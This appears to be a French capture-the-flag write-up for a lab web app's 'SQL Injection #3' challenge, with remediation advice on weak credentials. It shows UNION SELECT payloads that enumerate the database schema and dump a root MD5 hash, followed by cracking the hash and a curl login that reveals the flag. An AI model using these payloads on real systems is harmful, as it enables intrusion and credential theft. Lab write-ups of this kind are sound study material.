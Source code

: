 # SQL Injection #3

## Exploitation

En utilisant le meme injection que dans [sqli_page_member](../../sqli_page_member)

On utilise cette query:

```sql
1 AND 1=2 UNION SELECT table_schema,table_name FROM information_schema.columns" and "1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

On se rend compte qu'il y a une database `Member_Brute_Force` avec une table `db_default`

On n'utilise cette query:

```sql
ID: 1 UNION SELECT username,password from Member_Brute_Force.db_default
```

On trouve:

```
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```

On decrypte avec md5, on obtient `shadow`.

On se login avec username `root` et password `shadow` pour obtenir le flag:

```bash
$> curl 'http://192.168.99.100/index.php?page=signin&username=root&password=shadow&Login=Login' | grep flag

The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>				</div>
```

## Note

Le password etant tres peu secure, nous aurions pu utiliser une attaque par Bruteforce pour trouver ces credentials.


## Resolution

Il est deconseillé d'utiliser des usernames trop communs comme `root` ou `admin`.

Il faut utiliser des mot de passe forts (chiffres + lettres + caracteres speciaux), length > 10,  pas de mots du dictionnaire.
